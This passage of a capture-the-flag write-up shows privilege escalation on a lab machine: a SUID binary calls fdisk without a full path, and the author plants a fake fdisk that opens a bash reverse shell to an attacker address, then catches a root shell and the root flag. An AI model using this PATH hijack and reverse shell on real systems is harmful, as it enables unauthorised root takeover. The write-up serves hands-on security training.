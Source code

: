 ```bash
```

I run linpeas. Found an XML that might have possible private SSH key.

```bash
══╣ Possible private SSH keys were found!
/etc/ImageMagick-6/mime.xml
```

Also found an unknown SUID binary. Also the file seems to be readable by the user `theseus`. I downloaded it to my machine to inspect further.

```
-rwsr-x--- 1 root users 22K Oct 21  2019 /bin/sysinfo (Unknown SUID binary)
```

I use `ltrace` which is a debugging tool to display the calls an application makes to shared libraries. One thing I noticed is `popen` which is used to open a process.

Particularly this line

```bash
...
popen("fdisk -l", "r") 
...
```

It is calling `fdisk` without specifying an actual path. Therefore, by override `$PATH` we can make it executes our own exploit.

```bash
theseus@ubuntu:/dev/shm$ echo -e '#!/bin/bash\n\nbash -i >& /dev/tcp/10.10.14.4/4444 0>&1' > fdisk

theseus@ubuntu:/dev/shm$ chmod +x fdisk

theseus@ubuntu:/dev/shm$ export PATH="/dev/shm:$PATH"

theseus@ubuntu:/dev/shm$ echo $PATH
/dev/shm:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games:/usr/local/games:/snap/bin

theseus@ubuntu:/dev/shm$ sysinfo
```

Then we get back a root shell.

```bash
ghost@localhost [01:58:58] [~/Documents/hacking/tj-null-boxes/magic] [master *]
-> % nc -lvnp 4444
listening on [any] 4444 ...
connect to [10.10.14.4] from (UNKNOWN) [10.10.10.185] 38784
root@ubuntu:/dev/shm# id
id
uid=0(root) gid=0(root) groups=0(root),100(users),1000(theseus)

root@ubuntu:/dev/shm# cat /root/root.txt
cfb71e0f31030908bb4b75c01b48d414
```
